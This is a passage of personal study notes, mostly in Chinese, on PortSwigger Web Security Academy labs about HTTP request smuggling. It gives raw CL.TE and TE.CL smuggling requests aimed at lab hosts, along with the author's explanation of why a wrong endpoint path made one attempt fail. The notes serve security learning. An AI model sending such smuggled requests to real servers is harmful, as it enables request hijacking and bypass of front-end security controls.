 ### 4. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

> 前端不支持chunked encoding

​```http
POST /post/comment HTTP/1.1
Host: ac351fda1f7fe0e180755baf00b4002f.web-security-academy.net
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

多发几次，两个Repeater一起发。

### 5. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

> back-end server doesn't support chunked encoding

```http
POST /post/comment HTTP/1.1
Host: accc1ffa1f6baad9809405ed00dd0055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9e
GET /404 HTTP/1.1
Host: accc1ffa1f6baad9809405ed00dd0055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```

我这里已经出现`"Not Found"`了，可是不给过。

和答案一个一个对照和测试，发现`POST /post/comment HTTP/1.1`改成`POST / HTTP/1.1`就给过了。

题目要求的是：`To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.`

对不起，我是瞎子。

### 6. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
